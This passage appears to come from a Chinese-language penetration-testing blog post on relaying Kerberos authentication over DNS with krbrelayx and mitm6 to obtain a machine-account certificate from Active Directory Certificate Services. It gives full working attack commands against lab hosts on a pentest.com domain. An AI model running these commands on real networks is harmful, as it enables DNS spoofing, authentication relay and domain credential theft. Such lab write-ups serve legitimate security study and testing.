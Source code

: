 ## Changes to krbrelayx and mitm6

最初，[krbrelayx](https://github.com/dirkjanm/krbrelayx) 并不是真正用来中继的工具。相反，它通过使用非约束性委派来捕获 Kerberos TGT，并使用这些 TGT 执行 Kerberos 身份验证。由于现在有一个实际中继 Kerberos 身份验证的用例，因此 Dirk-jan Mollema 更新了 krbrelayx 中的功能，使其可以在真正的中继模式下运行，但仅支持中继到 HTTP 和 LDAP。至于 mitm6，Dirk-jan 添加了指定认证目标的选项，当受害者询问 SOA 记录时，这将是权威性名称服务器响应中的主机名。这将使受害者为我们的目标服务器而不是合法的 DNS 服务器请求 Kerberos 服务票据。

## Attack example

（1）首先执行以下命令设置 krbrelayx，将 AD CS 主机（adcs.pentest.com）指定为中继的目标，并将接口的 IPv4 地址指定为绑定 DNS 服务器的接口。

```bash
python3 krbrelayx.py --target http://adcs.pentest.com/certsrv/ -ip 172.26.10.134 --victim win10-client1.pentest.com --adcs --template Machine
```

![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426144651930.png)

（2）然后执行以下命令设置 mitm6，使用 AD CS 主机的名称作为认证目标：

```bash
mitm6 --domain pentest.com --host-allowlist win10-client1.pentest.com --relay adcs.pentest.com -i eth0 -v
```

![](/assets/posts/2022-04-26-relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/image-20220426144748831.png)

现在，我们可以等待受害者获得 IPv6 地址并连接到我们的恶意服务器。如下图所示，成功为机器账户 `WIN10-CLIENT1$` 的申请到了证书，该证书适用 Base64 加密。
